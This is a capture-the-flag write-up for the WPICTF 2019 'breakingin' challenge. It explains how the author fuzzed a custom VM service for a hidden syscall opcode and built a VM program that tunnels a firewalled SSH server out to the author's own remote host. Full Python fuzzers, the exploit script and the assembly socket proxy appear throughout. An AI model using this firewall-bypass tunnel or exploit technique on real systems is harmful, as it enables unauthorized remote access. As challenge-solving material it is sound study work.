




 # WPICTF 2019 - breakingin - pwn 500

For this challenge we were given SSH credentials and told that there was an SSH server listening on localhost on `breakingin.wpictf.xyz`, but the firewall was blocking external access to this server. However there was a 'weird' service listening on port 31337.



Connecting to this port with netcat showed that this was a service which would seemingly take a RoboarchNG binary and then execute it. I'd never come across RoboarchNG before, and Googling only gave us one result which was a GitHub repository - https://github.com/roboman2444/roboarchng. Reading through that told me that it is a custom ISA, and fortunately that repo has an assembler and a VM for executing RoboarchNG binaries. The repo has no documentation but the assembler and VM are easy to understand, so after reading through both of those I had a decent understanding of the instruction set. 



## Instruction Structure
It's a classic RISC style instruction set, with all instructions taking up 16 bytes, in the following form:
`[op] [A] [B] [C]`. Each part consists of 4 bytes, `op` is the opcode, and `A`, `B` are the operands. `C` is the destination offset. So the operation performed looks like `mem[C] = mem[A] op mem[B]`.

## Hidden Opcode
It's clear that with the standard RoboarchNG instructions we wouldn't be able to do anything interesting aside from arithmetic operations, because there is no way to interact with the system. Interestingly when you connect to the service it says that there's a "special secret op" added. I immediately thought that this must be a syscall, which would enable us to do some interesting things like spawn a shell or read a file. Now we just had to track down this hidden opcode. The issue here was that the opcode is 4 bytes, which makes a possible 4 billion (2^32) opcodes. 

My first approach was the naive approach: upload one binary per opcode, inserting the special opcode every time and observing the resulting behaviour. I quickly realised this was far too slow however as we needed to reconnect and send over the binary every time, we needed a smarter approach.

Then I realised that because the assembly could edit its own code, the uploaded binary could loop, rewriting one of its own instructions every time. So this is what I did:

```python
def fuzz_opcodes():
    asm = """start
    step: 0x1
    arg: 0x10
    zero: 0x0
    const10: 0x0a
    loop_size: 0x10
    start_opcode: {}
    start:
    add start_opcode zero fuzz  // Set the starting opcode
    add const10 zero arg        // Set r3 to a placeholder value of 10
    fuzz: 0x0 arg arg arg       // FUZZED OP
    add fuzz step fuzz          // Increment the opcode
    sub 0 loop_size 0           // Loop round
    """

    max_cycles = 1000000
    max_opcode = 2**32
    const_cycles = 1
    cycles_per_loop = 4
    ops_per_binary = ((max_cycles - const_cycles) / cycles_per_loop)   
    num_bins = max_opcode / ops_per_binary
    log.info("Fuzzing will take {} binaries".format(num_bins))

    for i in range(num_bins):
        start = ops_per_binary * i
        log.info("Binary number: {}, starting opcodes from {}".format(i, start))
        data = assemble(asm.format(hex(start)))
        t = remote('breakingin.wpictf.xyz', 31337)
        send_to_server(t, data)
        d = t.recvall()
        print(d)
        t.close()
        print('-'*40)
```

Each binary starts fuzzing opcodes at increments of several thousand and continues looping until the execution cycle limit is hit. I had no idea what was going to happen when I actually hit the secret opcode, but I was guessing that either something would be printed or it would hang. Sure enough I managed to get "Unimplemented syscall" back after sending only 6 binaries. Now I had a chunk of ~250K opcodes in which the hidden opcode was, so I did a manual binary search until I tracked the opcode down to 1259369, aka. `0x133769`.



## Whitelisted Syscalls
Now I  had the syscall opcode I had to find out what syscalls were allowed, clearly some weren't allowed because it would give back an "Unimplemented syscall" message.
```python
def fuzz_syscall_numbers():
    asm = """start
    arg: 0x01
    step: 0x01
    loop_size: 0x0c
    syscall_num: 0x0
    start:
    0x133769 syscall_num arg arg
    add syscall_num step syscall_num
    sub 0 loop_size 0
    """
    supported = []
    d = assemble_and_send(asm)
    for i in range(0, 60):
        if 'Unimplemented syscall {}\n'.format(i) not in d:
            supported.append(i)
    print('Supported syscalls: {}'.format(supported))
```



This gave me back the syscalls `[1, 3, 22, 32, 33, 41, 42, 44, 45, 59]`, which are the following: 
```
sys_write: 		1
sys_close: 		3
sys_pipe: 		22
sys_dup: 		32
sys_dup2: 		33
sys_socket: 	41
sys_connect: 	42
sys_sendto: 	44
sys_recvfrom: 	45
sys_execve: 	59
```

`execve` looked ideal, but after trying that out I quickly realised it was just a troll.

Right around now was when I realised that we were probably going to have to proxy the local SSH server to the outside world as we couldn't execute anything or open any files, instead we could only create sockets and do various socket operations.

## Syscall Calling Convention
First I had to figure out how to pass arguments to the syscalls, as `socket` for example takes 3 arguments but looking at the instruction structure we only had space for two arguments, e.g.
`0x133769 sys_socket [B] [C]`. This obviously wasn't going to work, so after playing around for a bit longer I realised that `[B]` is actually the offset of a structure containing the arguments, and `[C]` is the offset of the return value. With this I was able to call any of the syscalls with the appropriate arguments and then receive the return value by writing the return value to stdout with a write syscall.

## Proxying SSH
Now I had the syscalls working it was time to write the proxy. To do this I first had to create two sockets, connect one to localhost:2222 which was the SSH server, and connect the other to my remote server. I then had to write a loop to recv from local and send to remote, and recv from remote and send to local, for this I used the `recvfrom` and `write` syscalls.

The resulting rasm is here:
```x86
sys_write:      0x01
sys_socket:     0x29
sys_connect:    0x2a
sys_recvfrom:   0x2d
output: 0
r0: 0x1
r1: 0xdeadbeef
r2: 0x10
zero: 0x0
constMinus1: 0xffffffff
const20: 24
loop_size: 92
test_pad: 0
shit: 0
bad_syscall0: 0
bad_syscall2: 2 
bad_syscall5: 5 
bad_syscall6: 6 

sep: 0x2d2d2d0a 0x0a2d2d2d

sock_args: 2 1 6
connect_localhost_args: 3 sock_addr_local 16
connect_remote_args: 4 sock_addr_remote 16
sock_addr_local: 0xae080002 00x0100007f 0 
sock_addr_remote: 0xae080002 [REDACTED] 0 
write_output_args: 1 output 4
write_test_args: 4 binsh0 4
write_testpad_args: 1 test_pad 4
write_packet_args: 1 buf 
write_packet_size: 632
write_sep_args: 1 sep 8
write_local_args: 3 buf 
write_local_size: 512
write_remote_args: 4 buf 
write_remote_size: 512
recvfrom_local_args: 3 buf 512 0x40 0 addr_len      // Use MSG_DONTWAIT flag (0x40) so we don't block
recvfrom_remote_args: 4 buf 512 0x40 0 addr_len     

addr_len: 0 0 0 0 0
from_addr: 0 0 0 0 0 0 0 0
buf: 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0

start:
// Create two sockets, fd 3 and 4 respectively
0x133769 sys_socket sock_args output
0x133769 sys_socket sock_args output

// Connect to local SSH server and remote listener
0x133769 sys_connect connect_localhost_args output
0x133769 sys_connect connect_remote_args output

// Forwarding loop
// Local -> remote
0x133769 sys_recvfrom recvfrom_local_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall5 shit shit                 // Tracepoint
add output zero write_remote_size
add output zero write_packet_size
0x133769 sys_write write_remote_args output     // Write to remote
0x133769 sys_write write_packet_args output     // Write to screen
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall6 shit shit                 // Tracepoint

// Remote -> local
0x133769 sys_recvfrom recvfrom_remote_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall0 shit shit                 // Tracepoint
add output zero write_local_size
add output zero write_packet_size
0x133769 sys_write write_local_args output      // Write to local
0x133769 sys_write write_packet_args output     // Write to screen  
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall2 shit shit                 // Tracepoint

sub 0 loop_size 0

0x133769 sys_write write_output_args output
0x133769 sys_write write_packet_args output
```


The only thing left to do was to do some pipe magic on my server so that when I received a connection I could then hook an SSH client up to that connection. I couldn't figure out how to do this in a bash oneliner (if you know how then please let me know), so my teammate Retr0id quickly whipped up a script to do this for me.

Now all that was left to do was to start the listener on my server, connect an SSH client to it and then run my exploit which could start the RoboarchNG proxy and forward the SSH server to my remote server, ultimately giving me an SSH connection from my server to the challenge server.

Needless to say the latency on this was pretty bad, so it was easiest just to cat the flag non-interactively.
```sh
root@pwn:~# sshpass -p "hunter2" ssh -p 31337 breakingin@localhost cat flag.txt
WPI{16_byte_instructions_kinda_suck}
root@pwn:~#
```


The whole script I used is here:
```python
from pwn import *
import sys
import os

def get_file_contents(name):
    with open(name, 'rb') as f:
        d = f.read()
    return d

def assemble(code, out_file='/tmp/out'):
    with open("/tmp/code", "w") as f:
        f.write(code)
    log.info("Assembling")
    os.system("../roboarchngasm {} {} > /dev/null".format('/tmp/code', out_file))
    d = get_file_contents(out_file)
    return d

def send_to_server(t, data):
    log.info("Sending length ({})".format(len(data)))
    t.sendlineafter('):', str(len(data)))
    log.info("Sending binary")
    t.sendafter('teread 0', data)

def assemble_and_send(data, close=True, cont=False):
    data = assemble(data)
    t = remote('breakingin.wpictf.xyz', 31338)
    dump(data, 'lol.bin')
    send_to_server(t, data)
    if cont:
        buf = ''
        try:
            while True:
                nxt = t.recv()
                print(nxt)
                if nxt == '':
                    break
                buf += nxt
        except:
            pass
        d = buf
    else:
        d = t.recvall()

    if close:
        log.info("Closing")
        t.close()

    return d

def dump(data, fname):
    with open(fname, 'wb') as f:
        f.write(data)

def fuzz_opcodes():
    asm = """start
    step: 0x1
    arg: 0x10
    zero: 0x0
    const10: 0x0a
    loop_size: 0x10
    start_opcode: {}
    start:
    add start_opcode zero fuzz  // Set the starting opcode
    add const10 zero arg        // Set r3 to a placeholder value of 10
    fuzz: 0x0 arg arg arg       // FUZZED OP
    add fuzz step fuzz          // Increment the opcode
    sub 0 loop_size 0           // Loop round
    """

    max_cycles = 1000000
    max_opcode = 2**32
    const_cycles = 1
    cycles_per_loop = 4
    ops_per_binary = ((max_cycles - const_cycles) / cycles_per_loop)   
    num_bins = max_opcode / ops_per_binary
    log.info("Fuzzing will take {} binaries".format(num_bins))

    for i in range(num_bins):
        start = ops_per_binary * i
        log.info("Binary number: {}, starting opcodes from {}".format(i, start))
        data = assemble(asm.format(hex(start)))
        t = remote('breakingin.wpictf.xyz', 31337)
        send_to_server(t, data)
        d = t.recvall()
        print(d)
        t.close()
        print('-'*40)

def fuzz_syscall_numbers():
    asm = """start
    arg: 0x01
    step: 0x01
    loop_size: 0x0c
    syscall_num: 0x0
    start:
    0x133769 syscall_num arg arg
    add syscall_num step syscall_num
    sub 0 loop_size 0
    """
    supported = []
    d = assemble_and_send(asm)
    for i in range(0, 60):
        if 'Unimplemented syscall {}\n'.format(i) not in d:
            supported.append(i)
    print('Supported syscalls: {}'.format(supported))

exploit = """start
sys_write:      0x01
sys_socket:     0x29
sys_connect:    0x2a
sys_recvfrom:   0x2d
output: 0
r0: 0x1
r1: 0xdeadbeef
r2: 0x10
zero: 0x0
constMinus1: 0xffffffff
const20: 24
loop_size: 92
test_pad: 0
shit: 0
bad_syscall0: 0
bad_syscall2: 2 
bad_syscall5: 5 
bad_syscall6: 6 

sep: 0x2d2d2d0a 0x0a2d2d2d

sock_args: 2 1 6
connect_localhost_args: 3 sock_addr_local 16
sock_addr_local: 0xae080002 00x0100007f 0 

connect_remote_args: 4 sock_addr_remote 16
sock_addr_remote: 0xae080002 [REDACTED] 0 

write_output_args: 1 output 4
write_test_args: 4 binsh0 4
write_testpad_args: 1 test_pad 4
write_packet_args: 1 buf 
write_packet_size: 632
write_sep_args: 1 sep 8
write_local_args: 3 buf 
write_local_size: 512
write_remote_args: 4 buf 
write_remote_size: 512
recvfrom_local_args: 3 buf 512 0x40 0 addr_len      // Use MSG_DONTWAIT flag (0x40) so we don't block
recvfrom_remote_args: 4 buf 512 0x40 0 addr_len     

addr_len: 0 0 0 0 0
from_addr: 0 0 0 0 0 0 0 0
buf: 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0

start:
// Create two sockets, fd 3 and 4 respectively
0x133769 sys_socket sock_args output
0x133769 sys_socket sock_args output

// Connect to local SSH server and remote listener
0x133769 sys_connect connect_localhost_args output
0x133769 sys_connect connect_remote_args output

// Forwarding loop
// Local -> remote
0x133769 sys_recvfrom recvfrom_local_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall5 shit shit                 // Tracepoint
add output zero write_remote_size
add output zero write_packet_size
0x133769 sys_write write_remote_args output     // Write to remote
0x133769 sys_write write_packet_args output     // Write to screen
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall6 shit shit                 // Tracepoint

// Remote -> local
0x133769 sys_recvfrom recvfrom_remote_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall0 shit shit                 // Tracepoint
add output zero write_local_size
add output zero write_packet_size
0x133769 sys_write write_local_args output      // Write to local
0x133769 sys_write write_packet_args output     // Write to screen  
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall2 shit shit                 // Tracepoint

sub 0 loop_size 0

0x133769 sys_write write_output_args output
0x133769 sys_write write_packet_args output
"""

def main():
    #fuzz_opcodes()
    #fuzz_syscall_numbers()
    #exit(0)

    d = assemble_and_send(exploit, close=False, cont=True)

if __name__=="__main__":
    main()

